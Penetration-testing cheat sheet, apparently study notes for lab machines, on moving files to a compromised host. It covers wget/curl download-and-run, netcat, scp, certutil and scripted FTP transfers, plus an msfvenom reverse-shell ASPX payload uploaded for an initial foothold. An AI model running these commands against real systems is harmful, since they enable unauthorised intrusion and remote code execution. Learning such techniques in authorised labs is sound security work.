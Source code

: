 ## Linux
- `python3 -m http.server 80`
   - start web server from location file is at
- `wget http://ip/file.sh`
- OR
- `curl -O http://10.10.10.10/file.sh`
  - `chmod +x file.sh`
  - `./file.sh`
 
#### Netcat
- Local host
  - `nc -nvlp 4444 < file`
- Target host
  - `nc <hostip> 4444 > file`
- If get this error: This is nc from the netcat-openbsd package. An alternative nc is available
  - run this: `nc -l 1234 > file.sh`
 
#### SSH
- for a better shell, can try ssh
- .ssh files in /home/user -> identify with `ls -la`
- create keypair
  - ssh-keygen
- Can use SCP now
  - if need a file from something ssh connected to try scp
  - `scp /path/to/source/file.ext username@10.0.0.10:/path/to/destination/file.ext`
  - `scp <user@machineip>:Filename /directorytodownloadto/`


 ## Windows
 - Doesnt typically have netcat, wget or curl

#### Certutil
- certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

#### FTP
- try ftp 10.10.10.10
 - Can create a file with the following:
   - `echo open 10.10.10.10> ftpreq.txt`
   - `echo USER username>> ftpreq.txt`
   - `echo password>> ftpreq.txt`
   - `echo bin>> ftpreq.txt`
   - `echo GET wget.exe>> ftpreq.txt`
   - `echo bye>> ftpreq.txt`
  - Run `ftp -v -n -s:ftpreq.txt`

## Original foothold:
- Manual shell msfvenom
- `Msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f aspx > shell.aspx`
- Put it into the FTP
- Set up a listener and navigate to it via firefox
